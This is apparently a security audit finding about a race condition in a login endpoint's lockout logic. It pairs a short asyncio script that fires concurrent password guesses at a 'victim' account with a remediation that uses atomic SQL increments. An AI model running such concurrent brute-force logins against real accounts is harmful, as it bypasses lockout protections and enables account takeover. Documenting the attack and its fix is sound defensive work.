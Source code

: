 **Attack Vector:**
```python
# Parallel login attempts exploit race condition
import asyncio
import aiohttp

async def attempt_login(session, username, password):
    async with session.post(
        'http://target:8000/api/auth/login',
        json={'username': username, 'password': password}
    ) as resp:
        return await resp.json()

async def race_condition_attack():
    async with aiohttp.ClientSession() as session:
        # Send 10 concurrent requests
        tasks = [
            attempt_login(session, 'victim', 'guess1'),
            attempt_login(session, 'victim', 'guess2'),
            # ... 10 concurrent attempts
        ]
        results = await asyncio.gather(*tasks)
        # Some attempts may succeed due to race condition
```

**Remediation:**
Use atomic database operations:
```python
# Use atomic increment with row-level locking
result = db.execute(text("""
    UPDATE users
    SET failed_login_attempts = failed_login_attempts + 1,
        locked_until = CASE
            WHEN failed_login_attempts + 1 >= 5 THEN :lock_time
            ELSE locked_until
        END
    WHERE id = :user_id
    RETURNING failed_login_attempts, locked_until
    FOR UPDATE  -- Row-level lock
"""), {
    "user_id": user.id,
    "lock_time": datetime.utcnow() + timedelta(minutes=30)
})

updated_user = result.fetchone()
db.commit()

# Check if account is now locked
if updated_user.locked_until and updated_user.locked_until > datetime.utcnow():
    audit_logger.log_security_event(
        "ACCOUNT_LOCKED",
        f"Account {user.username} locked after {updated_user.failed_login_attempts} failed attempts",
        client_ip
    )
    raise HTTPException(
        status_code=status.HTTP_401_UNAUTHORIZED,
        detail="Account is temporarily locked"
    )
```

---